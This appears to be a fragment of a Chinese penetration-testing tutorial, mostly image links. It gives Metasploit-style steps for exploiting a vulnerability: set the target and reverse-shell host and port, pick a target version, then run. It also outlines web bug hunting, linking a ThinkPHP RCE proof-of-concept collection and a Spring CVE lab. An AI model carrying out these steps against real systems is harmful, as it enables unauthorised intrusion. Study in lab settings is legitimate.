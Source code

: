 search 0708

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZE5JUyMMiawwo1FGniaVPaNNzb0pkT6DdU3QlhlicfiahIpSyqiarVB94Wog/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



user这个漏洞名字，利用的是上述第3个漏洞

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZtaNYVesRStNwx9Adyd52puiaSh61TENEia4fial456N6ef3pdPIw30FHg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



show options显示配置详情

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZqyjYwHfYABjibh51icBKKWNojxXLxuibmXibcGbcBsCOmHMM8clGHkOWTg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



上图的lhost为反弹的地址，这里需要设置set rhost 目标IP，set lhost 反弹地址（本机地址），lport 反弹的端口输入run后发现攻击失败，输入show targets显示利用的系统版本信息

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZnq3HRQ3ib1kn6XPsQicoW7S9WofgoGve59bkzBSxhs3PjqXiaeuB14NBQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



set target 2 ，设置目标系统版本信息为第二个，然后run攻击成功

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZYibggdgdr0C5iaNf4LkpU70CTOt39OLvVtquIObvmiaaKeKhxicpTp7rlQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**web****应用bug发现**

**一、已知****CMS**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZHm5Z0zaNYqvaaibeuYyDJ1Pj8mtAanE2vVtcJ75XRODN4jNOL0xicTKQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZLhqzRKqZChBEbicTML6OOns8p3KrBLeWoOty8IrrG6EDafLgib7T1Zxg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**二、开发框架**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZNMZRF388dwxkUZGia8XbFbibpCO6s3pWWaCSEa3uWlccuDeiacZwKVmQg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**ThinkPHP****框架**

参考链接：https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection

**
**

**Sring****框架**

参考链接：https://vulhub.org/#/environments/spring/CVE-2018-1273/



**三、未知****CMS**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZvqRZBNMyAvhGvNRaAZTzLOt4h8o3scSevDeC1IpicUOvG5omia55qIPg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
